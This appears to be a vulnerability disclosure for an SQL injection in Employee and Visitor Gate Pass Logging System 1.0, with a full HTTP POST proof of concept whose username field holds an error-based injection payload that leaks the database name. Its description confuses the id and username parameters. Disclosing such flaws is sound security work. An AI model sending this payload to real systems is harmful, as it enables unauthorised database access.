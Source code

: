 ## Affected version: 
Employee and Visitor Gate Pass Logging System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/classes/Users.php?f=save

## Description:
Employee and Visitor Gate Pass Logging System 1.0 is vulnerable to unrestricted SQL injection attacks via /employee_gatepass/classes/Users.php?f=save, the controllable parameter is: username. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /employee_gatepass/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------34473676497087836224095229176
Content-Length: 864
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_gatepass/admin/?page=user
Cookie: PHPSESSID=q643apn08ggv5g81r5q8pocl6t
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23

-----------------------------34473676497087836224095229176
Content-Disposition: form-data; name="id"

1
-----------------------------34473676497087836224095229176
Content-Disposition: form-data; name="firstname"

Adminstrator
-----------------------------34473676497087836224095229176
Content-Disposition: form-data; name="lastname"

Admin
-----------------------------34473676497087836224095229176
Content-Disposition: form-data; name="username"

admin' and updatexml(1,concat(0x7e,(database())),3)-- q
-----------------------------34473676497087836224095229176
Content-Disposition: form-data; name="password"

admin123
-----------------------------34473676497087836224095229176
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------34473676497087836224095229176--
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/ebcfc5ae-0bfe-4a36-98d2-1e5a8e95d35d)

Get the database name: employee_gatepass_db
## code analysis:

The username parameter in Users.php is controllable and directly brought into the SQL statement for execution, causing SQL injection.
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/5dd0943a-c70c-4e5f-891e-c38dccd6eb4c)



